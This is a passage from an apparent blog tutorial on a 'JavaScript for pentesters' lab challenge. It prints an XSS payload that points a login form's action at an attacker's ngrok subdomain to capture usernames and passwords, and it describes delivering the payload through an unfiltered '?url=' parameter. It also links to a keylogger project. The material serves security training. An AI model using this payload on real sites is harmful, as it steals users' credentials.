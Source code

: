 ```javascript
document.getElementsByClassName("form-signin")[0].action = "https://<YOUR GENERATED SUBDOMAIN>.ngrok.io/c3/"
document.getElementsByClassName("form-signin")[0].method = "get"
```

You've probably realized by reading those that it's the same idea as the first two challenges - hunt for the element you want, target it, and then use JavaScript to change an attribute. Although it seems silly to repeat this, that *really* is the crux of a lot of offensive JavaScript actions (although that's just the tip of the iceberg...[you can do so, so much more.](https://github.com/JohnHoder/Javascript-Keylogger)). Once you put the actions into our `.js` file payload, you can do your super-special `ngrok` move that you've learned thanks to this post (which is also thanks again to ropnop!) and deploy it. After running the payload there should be some `GET` requests in the logs. In the URL for one of them you should find the username and password you entered into the form; `M A G I C!`

"But wait," I hear you say. "How do we deliver the XSS payload?!" Ah, dearest reader, ah. I don't have any sage advice, except that in the solution video it's mentioned that you can use the `?url=` parameter as we had in the past two exercises. Given that is the case here, we can safely assume that it will remain useful in the future. If you try something like `?url=hello` added to the end of your challenge link, you'll see the output reflected in the page. As there's no filtering on the site, you can use similar payloads to the previous sections here. Now that you have that, go forth and script all of the cross sites!

![Challenge 3 full exploit chain.](/assets/images/js-for-pentesters/c3/c3-full-exploit.gif)

## >> ALL GOOD THINGS COME TO AN END
